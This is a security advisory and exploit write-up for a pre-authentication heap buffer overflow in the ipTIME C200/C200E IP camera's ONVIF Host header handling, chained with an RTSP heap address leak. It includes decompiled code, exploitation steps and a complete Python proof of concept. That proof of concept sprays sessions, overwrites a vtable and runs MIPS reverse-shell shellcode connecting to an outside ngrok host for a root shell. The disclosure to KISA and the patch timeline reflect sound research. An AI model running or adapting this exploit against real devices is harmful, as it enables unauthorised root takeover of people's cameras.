

# ipTIME C200/C200E pre-auth RCE via ONVIF Protocol Heap Buffer Overflow (KVE-2023-5458)


## Summary

This vulnerability allows attackers to execute arbitrary code on ipTIME C200/C200E IP cameras. Authentication is not required to exploit this vulnerability.

The specific flaw exists within the handling of `Host` headers while parsing ONVIF protocol requests inside `/opt/app/bin/Challenge` service. The issue results from the lack of length validation of user-supplied data prior to copying it to a fixed-length heap buffer. An attacker can leverage this vulnerability to execute arbitrary code in the context of root.


## Vendor / Product / Version

ipTIME C200/C200E, Firmware version 1.084


## Environment

- ipTIME C200/C200E IP camera
- Attacker reachable to ONVIF service via network
  1. LAN-side attacker
  2. WAN-side attaker, ONVIF Internet Access allowed
  3. Other network configurations that allow the attacker to reach ONVIF service (ex: port forwarding / tunneling)


## Vulnerability

`/opt/app/bin/Challenge` server binary handles various protocols including ONVIF.

Below is a part of `COnvifSession::onDealData()` which parses ONVIF requests.

```c
  memset(this->host, 0, sizeof(this->host));
  s = strstr((const char *)a2, "Host: ");
  if ( s )
  {
    for ( i = strchr(s, ':') + 1; ; ++i )
    {
      v182 = *i;
      if ( !v182 || v182 != ' ' && v182 != '\t' )
        break;
    }
    s = i;
    i = strchr(i, ':');
    if ( i )
      memcpy(this->host, s, i - s);
  }
```

In this context, `this` is a pointer to `COnvifSession` object which has a memory layout as follows:

```
00000000 COnvifSession   struc  # (sizeof=0x16C, mappedto_58)
00000000 tptcp:          TPTCPClient ?
00000064 m_IsLocalClient:.word ?
00000068 host:           .byte 256 dup(?)
00000168 content_length: .word ?
0000016C COnvifSession   ends
```

This object is allocated on heap from `COnvifServer::onAccept()`:

```c
COnvifSession *__fastcall COnvifServer::onAccept(COnvifServer *this, int a2)
{
  COnvifSession *v2; // $t8
  COnvifSession *v3; // $s0

  if ( a2 == -1 )
  {
    puts("COnvifServer::onAccept NULL.. ");
    v2 = 0;
  }
  else
  {
    v3 = (COnvifSession *)operator new(0x16Cu);
    COnvifSession::COnvifSession(v3, *((CTPRoutine **)this + 13));
    COnvifSession::Open(v3, a2);
    printf("sock = %d\n", a2);
    printf("m_IsLocalClient = %d\n", *((_DWORD *)this + 12));
    v3->m_IsLocalClient = *((_DWORD *)this + 12);
    v2 = v3;
  }
  return v2;
}
```

We see that `this->host` is a heap-based fixed-length buffer of 256 bytes. However, `Host` header length is not checked while parsing user-supplied ONVIF requests, resulting in a heap-based buffer overflow. This can easily be verified by sending a `Host` header with large length - this likely crashes the `Challenge` binary, forcing a device reboot.


## Exploit

Although the device has `randomize_va_space=1` set, the `Challenge` binary is a long-running multithreaded binary and thus heap addresses cannot be guessed in a stable manner. To bypass this we **chain an heap address leak primitive from `CHYRtsp::ResponseSetup()`**:

```c
  memset(v43, 0, sizeof(v43));
  memset(v66, 0, 0x32u);
  memset(v64, 0, 0x96u);
  strcpy(v43, "RTSP/1.0 200 Ok\r\n");
  sprintf(this->session, "%08x%08x", this, this);
  sprintf(v66, "Session: %s\r\n", this->session);
  result = CHYRtsp::RtspAuthentication(this, "SETUP:");
```

Session token is constructed by concatenating the current `CHYRtsp` object pointer `this` twice, which is an obvious infoleak. Even further, this object embeds a 0x800-length client request buffer at offset 0x7c which allows us to write arbitrary data on a known offset. This session token can later be retrieved by `CHYRtsp::ResponsePause()`:

```c
  if ( this->chan_no >= 0 && this->chan_0or1 >= 0 )
  {
    memset(v3, 0, 0x96u);
    memset(v4, 0, sizeof(v4));
    strcpy(v3, "RTSP/1.0 200 Ok\r\n");
    sprintf(v4, "Session: %s\r\n", this->session);
    CHYRtsp::UpdateRecvBuf(this);
    result = CHYRtsp::SendResponse(this, v3, v4, 0);
```

To satisfy the above condition, sending a single `OPTIONS` request at the start of connection is sufficient (`CHYRtsp::ResponseOptions()`), leading to a final request order of `OPTIONS -> SETUP -> PAUSE` to leak the `CHYRtsp` object address.

> Note that omitting `SETUP` in the chain (`OPTIONS -> PAUSE`) leads to uninit heap data leak from `session` field, which is yet another vulnerability by itself.

Finally, we chain the two primitives to obtain RCE via the following steps:
1. Connect via RTSP (TCP port 554) and use the heap infoleak primitive to leak heap address
2. Construct a fake vtable pointing to reverse shellcode immediately following it, then send this as RTSP request to save it in memory
   - Note that device runs on an old MIPS processor, so NX is not in effect.
3. Establish multiple connections via ONVIF (TCP port 8899) to allocate `COnvifSession` objects consecutively in memory
4. Use the heap buffer overflow from one of the connections to overwrite the vtable of next `COnvifSession` object
5. Send dummy data to each of the ONVIF connections to trigger the shellcode and pop root shell.


## Proof of Concept

Below code is equivalent with [exploit.py](./exploit.py).

```python
#!/usr/bin/env python3

from pwn import *
import socket
import time

context.update(arch='mips', os='linux', bits=32, endian='little')

# prepare your reverse shell listener here
LHOST = "0.tcp.jp.ngrok.io"
LPORT = 12057

IP = "192.168.0.104"

print('prep vtable and shellcode!')
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((IP, 554))

s.sendall(b"OPTIONS rtsp://192.168.0.104:554/stream_ch00_0 RTSP/1.0\r\nCSeq: 1\r\n\r\n")
data = s.recv(1024)

s.sendall(b"SETUP rtsp://192.168.0.104:554/ RTSP/1.0\r\nCSeq: 1\r\n\r\n")
data = s.recv(1024)

s.sendall(b"PAUSE rtsp://192.168.0.104:554/ RTSP/1.0\r\nCSeq: 1\r\n\r\n")
data = s.recv(1024)

chyrtsp_this = int(data.split(b'Session: ')[1][:8], 16)
reqbuf = chyrtsp_this + 0x7c

print(f'vtable: {reqbuf:#010x}')

pl = p32(reqbuf + 0x100) * (0x100 // 4)
#pl = p32(0x00625030) * (0x100 // 4)        # run_reboot + ...
#pl += b'\xff\xff\x00\x10\x00\x00\x00\x00'  # .L1: beq $0, $0, .L1
#pl += b'\x0c\x94\x18\x08\x00\x00\x00\x00'   # j 0x00625030
pl += asm(
    shellcraft.fork() +
    """
    bgtz $v0, infloop_st
    """ +
    shellcraft.connect(LHOST, LPORT) +
    shellcraft.dupsh() +
    """
    infloop_st:
        addiu $sp, -0x8
        li $t8, 3600
        sw $t8, 0($sp)
        sw $t8, 4($sp)
    infloop:
    """ +
    shellcraft.nanosleep("$sp", 0) +
    """
        beq $0, $0, infloop
        nop
    """
)

assert all(c not in p32(reqbuf)[:3] for c in b':\0')
s.sendall(pl)
time.sleep(1)

SPRAY, TGT = 0x8, 0x4

print('spray!')
ss = []
for i in range(SPRAY):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((IP, 8899))
    ss.append(sock)

for i in range(SPRAY):
    ss[i].sendall(b"Host: " + b"TEST"*(0x100 // 0x4) + b":12345\r\n")

time.sleep(1)

print('overwrite!')
pl2 = b"Host: " + b"A"*0x100 + b"CTLN" + b"CKSZ" + b"VTL1" + p32(reqbuf)[:3] + b":12345\r\n"
ss[TGT].sendall(pl2)

time.sleep(1)

print(f'trigger @ {TGT}!')
for i in range(SPRAY):
    ss[i].sendall(b"a")

for retry_idx in list(range(TGT + 1, SPRAY)) + list(range(0, TGT)):
    input("if you didn't get shell, press enter to try more! > ")
    print(f"trying with index {retry_idx}...")
    ss[retry_idx].sendall(pl2)
    time.sleep(1)
    for i in range(SPRAY):
        ss[i].sendall(b"a")
```




## Timeline

- 2023-07-20: Initial discovery
- 2023-07-31: Reported to KISA
- 2023-09-27: Acknowledged by KISA
- 2024-01-09: Patch released (Firmware version 1.086)


## Credits

Xion (SeungHyun Lee) of KAIST Hacking Lab
